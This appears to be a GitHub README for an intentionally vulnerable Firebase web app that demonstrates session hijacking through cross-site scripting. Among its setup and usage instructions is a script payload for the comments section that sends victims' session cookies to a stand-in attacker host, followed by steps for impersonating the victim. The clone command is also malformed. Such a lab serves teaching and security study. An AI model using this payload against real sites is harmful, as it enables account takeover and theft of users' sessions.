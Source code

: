 # XSS Session Hijacking Attack
This project demonstrates session hijacking attacks using Cross-Site Scripting (XSS). The application uses Firebase for authentication and Firestore for data storage.

## Prerequisites
Node.js and npm installed on your system.
Firebase project setup with Firestore and Authentication enabled.
## Installation
1. Clone the repository:
```
git clone https://github.com/your-repo/xss-session-hijacking-attack.git](https://github.com/himIbraa/Session-Hijacking-Attack-through-XSS-Vulnerabilities
```
2. Navigate to the project directory:
```
cd xss-session-hijacking-attack
```
3. Install the dependencies:
```
npm install
```
## Firebase Configuration

1. Create a Firebase project at Firebase Console.

2. Enable Firestore and Authentication in your Firebase project.

3. Copy your Firebase project's configuration and replace the configuration in firebase-config.js with your own:
```
const firebaseConfig = {
  apiKey: "YOUR_API_KEY",
  authDomain: "YOUR_AUTH_DOMAIN",
  databaseURL: "YOUR_DATABASE_URL",
  projectId: "YOUR_PROJECT_ID",
  storageBucket: "YOUR_STORAGE_BUCKET",
  messagingSenderId: "YOUR_MESSAGING_SENDER_ID",
  appId: "YOUR_APP_ID",
  measurementId: "YOUR_MEASUREMENT_ID",
};
firebase.initializeApp(firebaseConfig);

const db = firebase.firestore();
const auth = firebase.auth();
```
## Running the Project
1. Start the server:
```
npm start
```
2. Open your browser and navigate to http://localhost:8080.
## Project Usage
1. Login and Signup: Users can sign up and log in to the application through the login.html page.
2. Add Posts: Logged-in users can add posts on the main feed page (index.html).
3. View Posts: All posts are displayed on the allPosts.html page.
4. Comments: Users can add comments to posts, which are displayed on the comments.html page.
## Dependencies
- Firebase: Used for authentication and Firestore database.
- http-server: A simple, zero-configuration command-line HTTP server.
## XSS Vulnerability
This project is intentionally vulnerable to Cross-Site Scripting (XSS) session hijacking attacks. An attacker can inject malicious scripts into the comments section, which can steal session cookies and hijack user sessions.

### How to Perform the Attack
1. Post a Malicious Comment: An attacker can post a comment containing a script to steal cookies. For example:
```
<script>
  document.write('<img src="http://attacker.com/steal?cookie=' + document.cookie + '" />');
</script>
```
2. View the Malicious Comment: When another user views the post with the malicious comment, their session cookie is sent to the attacker's server.

3. Hijack the Session: The attacker can use the stolen cookie to impersonate the user and hijack their session.


To run the project using npm, ensure you have followed the installation steps and configured Firebase correctly. Use the npm start command to launch the server and navigate to http://localhost:8080 in your browser to access the application.
